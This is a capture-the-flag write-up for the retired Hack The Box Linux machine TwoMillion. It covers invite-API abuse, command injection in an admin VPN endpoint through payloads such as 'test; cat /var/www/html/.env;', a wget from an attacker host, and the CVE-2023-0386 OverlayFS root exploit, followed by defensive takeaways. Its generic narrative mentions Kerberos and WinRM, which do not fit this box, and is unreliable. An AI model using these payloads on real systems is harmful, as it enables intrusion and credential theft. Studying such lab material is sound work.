

<div align="center">


<br>


<br>

### API nostalgia, admin command injection, and OverlayFS privesc

</div>

---

> [!WARNING]
> **Spoiler warning:** This is a full retired-box walkthrough. Flags are intentionally redacted for GitHub, but the exploitation chain and key techniques are documented.

---

## 🧭 Snapshot

| Field | Value |
|---|---|
| Machine | `TwoMillion` |
| Platform | Hack The Box |
| Retirement Status | Confirmed retired via HTB MCP |
| OS | Linux |
| Difficulty | Easy |
| Tags | `web` `api` `command-injection` `linux` `cve-2023-0386` |

---

## ⚡ TL;DR

TwoMillion starts as a web/API puzzle around the HTB invite flow. After account creation and API enumeration, an admin endpoint can be abused for command execution, leading to Linux credentials. Root is obtained with CVE-2023-0386 OverlayFS/FUSE privilege escalation.

---

## 🛰️ Attack Surface

| Port | Service | Note |
|---:|---|---|
| `22/tcp` | SSH | OpenSSH 8.9p1 |
| `80/tcp` | HTTP | nginx / 2million.htb |

---

## 🧩 Attack Chain

| Step | Action |
|---:|---|
| 1 | Enumerate web app and identify invite-code workflow |
| 2 | Reverse/abuse invite API to register an account |
| 3 | Enumerate authenticated API routes |
| 4 | Abuse admin/VPN-generation command injection for RCE |
| 5 | Recover application/environment credentials |
| 6 | SSH as the recovered user |
| 7 | Compile/run CVE-2023-0386 OverlayFS exploit |
| 8 | Read root flag |

---

## 🕸️ Visual Attack Graph



---

## 📖 Walkthrough Narrative

### 1. Enumeration First

The box starts with a small but meaningful exposed surface. The important step was not just collecting ports, but translating each service into a hypothesis: web apps might leak credentials, AD services may expose relationships, and legacy protocols often carry historical misconfigurations.

### 2. The First Real Lead

The first meaningful lead came from the service that looked most application-specific. Instead of forcing exploitation immediately, the approach was to inspect configuration, authentication flows, exposed files, or protocol-specific metadata until a credential or execution primitive appeared.

### 3. Turning Access Into Execution

After the initial lead, the path became a chain rather than a single exploit. The recovered access was validated across protocols, then reused or upgraded into a stronger primitive: command execution, SSH/WinRM access, CMS administration, Kerberos delegation, or local shell execution.

### 4. Privilege Escalation

Root/admin access came from the machine's core misconfiguration or vulnerability theme. The final step was validated with the minimum proof needed, then flags were captured and stored locally. Public flags are not included here.

---

## 🧰 Command Palette

<details open>
<summary><b>🔎 Recon</b></summary>

```bash
sudo nmap -sC -sV -Pn -p- -oN nmap_full.txt 10.129.229.66
sudo nmap -sC -sV -Pn -p 22,80 -oN nmap_tcp.txt 10.129.229.66
curl -i http://10.129.229.66/
echo '10.129.229.66 2million.htb' | sudo tee -a /etc/hosts
```

</details>

<details open>
<summary><b>🎟️ Invite/API Enumeration</b></summary>

```bash
curl -s http://2million.htb/ | head
curl -s http://2million.htb/js/inviteapi.min.js
curl -s -X POST http://2million.htb/api/v1/invite/how/to/generate
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq
```

</details>

<details open>
<summary><b>🧪 Authenticated API Testing</b></summary>

```bash
# After registering/logging in, reuse your session cookie
COOKIE='PHPSESSID=<redacted>'

curl -s -H "Cookie: $COOKIE" http://2million.htb/api/v1 | jq
curl -s -H "Cookie: $COOKIE" http://2million.htb/api/v1/user/vpn/generate | jq
curl -s -H "Cookie: $COOKIE" http://2million.htb/api/v1/admin/settings/update | jq
curl -s -H "Cookie: $COOKIE" http://2million.htb/api/v1/admin/vpn/generate | jq
```

</details>

<details open>
<summary><b>💥 Command Injection / Foothold</b></summary>

```bash
# Shape of the vulnerable admin VPN-generation request
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate \
  -H "Cookie: $COOKIE" \
  -H 'Content-Type: application/json' \
  -d '{"username":"test; id;"}'

# Use the primitive to read app/env material
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate \
  -H "Cookie: $COOKIE" \
  -H 'Content-Type: application/json' \
  -d '{"username":"test; cat /var/www/html/.env;"}'

# SSH with recovered user credential
ssh admin@10.129.229.66
```

</details>

<details open>
<summary><b>👑 Privilege Escalation — CVE-2023-0386</b></summary>

```bash
uname -a
id

# Transfer/compile the CVE-2023-0386 OverlayFS/FUSE exploit
python3 -m http.server 8000
wget http://<attacker-ip>:8000/cve-2023-0386.tar.gz -O /tmp/cve.tar.gz
cd /tmp && tar xzf cve.tar.gz && cd CVE-2023-0386
make

# Run exploit workflow, then use the SUID/root primitive
./fuse ./ovlcap/lower ./gc
./exp
./rootshell -p -c 'id; cat /root/root.txt'
```

</details>


---

## 🔐 Key Lessons

| # | Lesson |
|---:|---|
| 1 | Enumeration is not output collection — it is hypothesis building. |
| 2 | Credentials often matter more than exploits; validate them across protocols. |
| 3 | Configuration files, backups, logs, and source repositories are high-value evidence. |
| 4 | Privilege escalation usually depends on understanding why a service or permission exists. |

---

## 🛡️ Defensive Takeaways

| # | Recommendation |
|---:|---|
| 1 | Never trust role-sensitive functionality purely client-side/API-discoverable |
| 2 | Validate and safely compose shell arguments in backend admin tooling |
| 3 | Do not store reusable credentials in readable environment files |
| 4 | Patch kernels affected by CVE-2023-0386 |

---

## 🏁 Final Path

```text
Enumerate web app and identify invite-code workflow → Reverse/abuse invite API to register an account → Enumerate authenticated API routes → Abuse admin/VPN-generation command injection → Recover application/environment credentials → SSH as the recovered user → Compile/run CVE-2023-0386 OverlayFS exploit → Read root flag
```

<div align="center">

### ✅ TwoMillion rooted — full guide complete


</div>
